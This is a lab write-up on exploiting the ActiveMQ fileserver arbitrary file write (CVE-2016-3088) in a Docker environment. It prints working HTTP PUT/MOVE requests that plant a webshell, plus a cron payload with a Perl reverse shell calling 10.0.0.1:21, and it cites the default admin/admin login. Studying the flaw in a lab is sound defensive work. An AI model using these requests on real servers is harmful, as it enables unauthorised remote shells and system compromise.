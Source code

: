 # ActiveMQ Arbitrary File Write Vulnerability (CVE-2016-3088)

## Environment Building

Build and run a vulnerability environment:

```
Docker-compose build
Docker-compose up -d
```

The environment listens to port 61616 and port 8161, of which 8161 is the web console port. This vulnerability appears in the web console.

Visit `http://your-ip:8161/` to see the web page, indicating that the environment has run successfully.

## Background Brief

ActiveMQ web console is divided into three applications, admin, api and fileserver, where admin is the administrator page, api is the interface, fileserver is the interface for storing files; admin and api need to log in before they can be used, fileserver does not need to log in.

Fileserver is a RESTful API interface. We can read and write files stored in it through HTTP requests such as GET, PUT, and DELETE. The purpose is to compensate for the defect that the message queue operation cannot transfer and store binary files, but later found:

1. Its usage rate is not high
2. File operations are prone to vulnerabilities

Therefore, ActiveMQ has closed the fileserver application by default in 5.12.x~5.13.x (you can open it in conf/jetty.xml); after 5.14.0, the fileserver application is completely removed.

During the test, you can pay attention to the version of ActiveMQ and avoid detours.

## Vulnerability details

This vulnerability appears in the fileserver application. The vulnerability principle is actually very simple, that is, the fileserver supports writing files (but not parsing jsp), and supports moving files (MOVE requests). So, we only need to write a file and then use MOVE to move it to any location, causing any file write vulnerability.

There are several ways to use file writing:

Write to webshell
2. Write files such as cron or ssh key
3. Write to libraries and configuration files such as jar or jetty.xml

The advantage of writing to webshell is that the threshold is lower and more convenient, but the fileserver is not parsed jsp, admin and api both need to log in to access, so it is a bit sloppy; write cron or ssh key, the advantage is to directly rebound Shell, it is more convenient, the disadvantage is that you need root privileges; write jar, a little trouble (requires jar back door), write xml configuration file, this method is more reliable, but there is a chicken point: we need to know activemq Absolute path.

Let me talk about the above several methods of use.

### Write to webshell

As mentioned earlier, writing to webshell requires writing in the admin or api application, and both applications require login to access.

The default ActiveMQ account password is `admin`. First visit `http://your-ip:8161/admin/test/systemProperties.jsp` to view the absolute path of ActiveMQ:

![](02.png)

Then upload the webshell:

```
PUT /fileserver/2.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

webshell...
```

Move to the api folder (`/opt/activemq/webapps/api/s.jsp`) in the web directory:

```
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

Access webshell (login required):

![](03.png)

### Write crontab, automate shell

This is a more robust approach. First upload the cron configuration file (note that the newline must be `\n`, not `\r\n`, otherwise the crontab implementation will fail):

```
PUT /fileserver/1.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
##
```

Move it to `/etc/cron.d/root`:

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

If both of the above requests return 204, the write is successful. Waiting for the rebound shell:

![](01.png)

This method requires ActiveMQ to be root, otherwise it cannot be written to the cron file.

### Write jetty.xml or jar

In theory we can override jetty.xml, remove the login restrictions for admin and api, and then write to webshell.

In some cases, everyone such as jetty.xml and jar is a user of the web container, so the success rate of writing crontab is higher.

Not tested yet.